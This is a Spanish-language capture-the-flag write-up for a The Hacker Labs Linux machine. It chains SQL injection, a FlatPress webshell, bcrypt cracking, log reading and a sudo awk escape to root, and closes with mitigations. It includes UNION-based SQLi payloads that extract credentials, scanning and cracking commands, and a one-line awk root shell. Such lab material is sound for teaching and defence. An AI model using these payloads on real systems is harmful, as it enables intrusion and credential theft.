> **Plataforma:** The Hacker Labs  
> **Dificultad:** Avanzado  
> **Sistema operativo:** Linux

# Resumen

Máquina Linux de The Hacker Labs donde se compromete una aplicación web vulnerable a **SQL Injection**, obteniendo credenciales del panel de FlatPress y acceso inicial al sistema. Posteriormente se realiza movimiento lateral entre usuarios mediante credenciales expuestas en hashes y logs, terminando con una escalada a `root` mediante una mala configuración de `sudo`.

# Cadena de ataque

`SQLi → Credenciales FlatPress → Webshell → Shell → bcrypt → pedro → logs adm → flate → sudo awk → root`

---

# Reconocimiento

Realizamos un reconocimiento inicial de los puertos y servicios TCP expuestos:

```bash
nmap -p- --open -sS --min-rate 2000 -n -Pn 192.168.0.36 -oG allPorts
nmap -p22,80,8080 -sCV -Pn 192.168.0.36 -oN targeted
```

Tras el escaneo encontramos los servicios **SSH** y **HTTP**, ejecutándose en los puertos `22`, `80` y `8080`.

En el puerto `80` encontramos el CMS **FlatPress**, mientras que en el puerto `8080` existe una aplicación web de búsqueda que utiliza el parámetro `query`.

| Puerto | Servicio | Versión | Hallazgo |
|---|---|---|---|
| 22 | SSH | OpenSSH 9.2p1 | Servicio SSH expuesto |
| 80 | HTTP | Apache httpd 2.4.62 | CMS FlatPress |
| 8080 | HTTP | Apache httpd 2.4.62 | Aplicación web con consultas mediante `search.php` |







---

# Enumeración

Realizamos enumeración web sobre ambos servicios HTTP:

```bash
nmap -p80,8080 --script http-enum 192.168.0.36

gobuster dir -u http://192.168.0.36/ -w /usr/share/SecLists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -t 40 -x php,txt,html,bak,env
```

 #####  **Hallazgos:**

En el puerto `80` confirmamos la presencia de **FlatPress** y su panel administrativo.



En el puerto `8080` encontramos una aplicación de búsqueda que devuelve información de distintos usuarios, incluyendo nombres, correos y otros datos.



---

# Explotación

## Explotación - SQLi

Vemos que en la URL se realiza una llamada a la variable `query`, por lo que probamos una posible inyección SQL. Tras realizar varias pruebas observamos que el parámetro es vulnerable a **SQL Injection**.



Tras esto comenzamos a realizar la inyección SQL manualmente para enumerar las bases de datos, tablas y columnas existentes:

```url
query=error' order by 6-- - # aqui falla por lo que confirmamos que solo hay 5 columnas
query=error' union select 1,2,3,4,5-- - 
query=error' union select 1,2,3,4,database()-- - # vemos que estamos en la bbd de nombres
query=error' union select 1,2,3,4,group_concat(schema_name) from information_schema.schemata-- - # Confirmamos que hay 5 bbdd , de ellas nos interesa la de FlatPress
query=error' union select 1,2,3,4,group_concat(table_name) from information_schema.tables where table_schema='FlatPress'-- - # Listar tablas
query=error' union select 1,2,3,4,group_concat(column_name) from information_schema.columns where table_schema='FlatPress' and table_name='login'-- - # Listar Columnas
query=error' UNION SELECT 1,2,3,4,group_concat(user,':',password) from FlatPress.login-- -  # leemos las tablas de user y password
```





## Acceso inicial - FlatPress

Con las credenciales obtenidas mediante SQLi accedemos al panel de administración de FlatPress.

Desde el apartado de subida de archivos cargamos una webshell PHP.



Utilizamos la webshell para enviarnos una reverse shell hacia nuestra máquina atacante.





### Tratamiento de TTY

```bash
script /dev/null -c bash
Ctrl + Z
stty raw -echo; fg
reset
export TERM=xterm
export SHELL=/bin/bash
```

---
# Escalada de privilegios
## Movimiento lateral - pedro

Durante la enumeración encontramos la flag de usuario y un archivo con un hash:

```bash
cat /home/flate/user.txt
ls -l /opt/
cat /opt/hash.txt
```



El hash identificado utiliza **bcrypt**, por lo que realizamos un ataque de diccionario con John The Ripper:

```bash
john --format=bcrypt --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```



Tras recuperar la contraseña obtenemos acceso como `pedro`.

**Vector:** credencial almacenada mediante un hash crackeable.

**Resultado:** acceso obtenido como `pedro`.

## Movimiento lateral - flate

Una vez como `pedro`, comprobamos sus grupos y observamos que pertenece al grupo:

```text
adm
```

Este grupo permite leer determinados logs del sistema.

Buscamos archivos asociados al grupo:

```bash
find / -group adm 2>/dev/null
```

Durante la revisión de los logs encontramos información sensible relacionada con un intento de inicio de sesión del usuario `flate`.



La información expuesta permite obtener acceso como `flate`

**Vector:** exposición de información sensible en logs accesibles mediante el grupo `adm`.

**Resultado:** acceso obtenido como `flate`.

## Escalada a root

Una vez como `flate`, enumeramos los permisos de `sudo`:

```bash
sudo -l
```

Observamos que puede ejecutar `awk` como `root`. Aprovechamos esta configuración para ejecutar una shell privilegiada:

```bash
sudo awk 'BEGIN {system("/bin/bash")}'
```

Finalmente obtenemos la flag de root:

```bash
cat /root/root.txt
```



**Vector:** mala configuración de `sudo` sobre `awk`.

**Resultado:** acceso obtenido como `root`.

---

# Cadena final

`SQLi → Credenciales FlatPress → Webshell → Shell → bcrypt → pedro → logs adm → flate → sudo awk → root`

---

# Aprendizajes

- Enumerar siempre parámetros GET/POST susceptibles de SQLi.
- Utilizar `ORDER BY` para determinar el número de columnas.
- `UNION SELECT` permite extraer información del esquema y datos.
- Revisar hashes y credenciales expuestas durante la post-explotación.
- Los grupos como `adm` pueden permitir acceso a logs sensibles.
- Revisar siempre `sudo -l` tras comprometer un nuevo usuario.
- Binarios legítimos como `awk` pueden permitir privesc si están mal configurados.

---

# Mitigaciones

- Utilizar consultas preparadas para evitar SQL Injection.
- No almacenar credenciales o hashes sensibles en rutas accesibles.
- Restringir el acceso al panel administrativo de FlatPress.
- Limitar permisos de lectura sobre logs del sistema.
- Evitar exponer credenciales en logs.
- Aplicar mínimo privilegio a grupos como `adm`.
- Restringir el uso de binarios peligrosos mediante `sudo`.
- Aplicar el principio de mínimo privilegio.